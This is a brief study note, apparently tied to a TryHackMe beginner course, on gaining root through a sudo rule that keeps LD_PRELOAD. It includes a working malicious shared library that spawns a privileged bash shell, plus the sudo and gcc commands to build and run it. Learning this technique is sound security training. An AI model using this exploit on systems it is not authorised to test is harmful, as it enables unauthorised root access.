 # Exploiting LD_PRELOAD

author:: Nathan Acks  
date:: 2021-10-31

If LD_PRELOAD is preserved by sudo, then it's possible to use a malicious dynamic library to gain root access - just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`. Preserved environment variables are listed by `sudo -l`.

A simple malicious library (perhaps *the* simplest) that can exploit the LD_PRELOAD trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles \
    -o /path/to/malicious.so /path/to/malicious.c
```

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Enumerate "sudo" Access](enumerate-sudo-access.md)
